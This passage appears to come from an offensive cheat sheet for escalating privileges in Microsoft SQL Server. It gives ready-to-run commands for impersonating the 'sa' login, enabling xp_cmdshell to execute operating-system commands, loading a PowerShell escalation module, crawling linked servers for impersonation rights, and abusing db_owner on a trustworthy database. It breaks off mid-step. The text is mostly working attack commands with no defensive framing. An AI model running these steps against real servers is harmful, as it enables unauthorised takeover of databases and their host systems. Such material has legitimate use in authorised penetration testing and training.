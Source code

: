 ````
#### Impersonate a user 
- Might be possible to impersonate user a and then user b and then sa!
```
-- Verify you are still running as the normal user login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
-- Impersonate the sa login
EXECUTE AS LOGIN = 'sa'
-- Verify you are now running as the sa login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```

#### Enable and run xp_cmdshell
```
-- Enable show options
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
GO
-- Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
GO
-- Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
```
 
#### Impersonate exploit script
- https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-ExecuteAs.psm1
```
Import-Module .\Invoke-SqlServer-Escalate-ExecuteAs.psm1
Invoke-SqlServer-Escalate-ExecuteAs -SqlServerInstance <INSTANCE> -SqlUser <USER> -SqlPass <PASSWORD>
```
 
#### Check for impersonation through link
```
Get-SQLServerLinkCrawl -Instance <INSTANCE> -Verbose -Query 'SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = ''IMPERSONATE'''
```
 
### Create Stored procedure as DB_Owner
- Prerequisites:
  - db_owner role
  - owner of the database high privileged user
  - Database set to thrustworthy (To enable xp_cmdshell)

#### Check the db_owner role PowerUpSQL
```
Invoke-SQLAuditPrivTrustworthy -Instance <SQL INSTANCE> -Verbose -Debug
```
 
#### Check the db_owner role
```
USE <DB>;
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)
```
 
#### Check the owner of the database
```
````